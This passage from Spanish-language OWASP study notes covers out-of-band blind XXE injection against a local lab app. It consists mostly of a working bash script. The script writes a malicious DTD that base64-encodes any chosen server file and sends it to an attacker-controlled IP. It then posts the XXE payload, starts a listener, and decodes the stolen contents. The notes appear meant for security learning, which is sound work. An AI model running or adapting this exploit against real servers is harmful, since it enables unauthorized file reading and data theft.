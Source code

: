 Archivo malicioso que cargará el servidor

![Resultado de petición por GET del servidor al atacante con el base64](../assets/OWASP-TOP-10/XML External Entity Injection (XXE)/Untitled 13.png)

Resultado de petición por GET del servidor al atacante con el base64

![Resultado base64 decodificado](../assets/OWASP-TOP-10/XML External Entity Injection (XXE)/Untitled 14.png)

Resultado base64 decodificado

### Script automatizado

- Script para automatizar el XXE OOB Blind
    
    ```bash
    #!/bin/bash
    
    echo -ne "\n[+] Insert file to read: " && read -r myFilename
    
    # Estructura del archivo malicioso
    malicious_dtd="""
    <!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$myFilename\">
    <!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://192.168.0.110/?file=%file;'>\">
    %eval;
    %exfil;"""
    
    echo $malicious_dtd > malicious.dtd
    
    # Tramitar la petición
    python3 -m http.server 80 &>wpdkogfnefi &
    
    PID=$!
    
    sleep 1
    
    curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.0.110/malicious.dtd"> %xxe;]>
    <root><name>bryan</name><tel>8888</tel><email>hola</email><password>123</password></root>' &>/dev/null
    
    # Filtrar base64 y decodificarlo
    cat wpdkogfnefi | grep -oP 'file=\K[^.*]+\s' | base64 -d 2>/dev/null
    
    kill -9 $PID
    wait $PID 2>/dev/null
    
    rm wpdkogfnefi 2>/dev/null # El nombre es random para que no elimine archivos futuros
    ```
    

## Evasión de firewall
